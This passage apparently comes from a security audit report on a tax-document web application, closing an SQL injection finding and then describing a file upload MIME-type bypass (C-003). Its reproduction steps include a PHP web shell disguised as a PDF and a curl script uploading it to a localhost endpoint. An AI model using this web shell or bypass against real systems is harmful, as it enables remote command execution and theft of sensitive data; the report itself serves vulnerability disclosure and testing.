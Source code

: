 ### Impact
- Full database compromise
- Extraction of password hashes
- Access to all user data including tax information

---

## C-003: File Upload Bypass

### Vulnerability Description
MIME type validation can be bypassed by manipulating Content-Type headers.

### Reproduction Steps

1. **Create Malicious Executable:**
```bash
#!/bin/bash
# File: create_malicious_file.sh

# Create a PHP web shell disguised as PDF
cat << 'EOF' > malicious.pdf
%PDF-1.4
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj
2 0 obj
<< /Type /Pages /Kids [3 0 R] /Count 1 >>
endobj
3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] >>
endobj
xref
trailer << /Size 4 /Root 1 0 R >>
startxref
173
%%EOF
<?php
system($_GET['cmd']);
?>
EOF

echo "Created malicious.pdf with embedded PHP code"
```

2. **Upload Bypass Script:**
```bash
#!/bin/bash
# File: test_file_upload_bypass.sh

BASE_URL="http://localhost:5000"
MALICIOUS_FILE="malicious.pdf"

echo "Testing file upload bypass..."

# Upload malicious file with correct MIME type
curl -X POST \
  $BASE_URL/api/v1/files/upload \
  -H "Authorization: Bearer valid_jwt_token" \
  -F "file=@$MALICIOUS_FILE;type=application/pdf" \
  -F "category=TAX_DOCUMENT" \
  -F "parentEntityType=TAX_FORM" \
  -F "parentEntityId=test123" \
  -v
```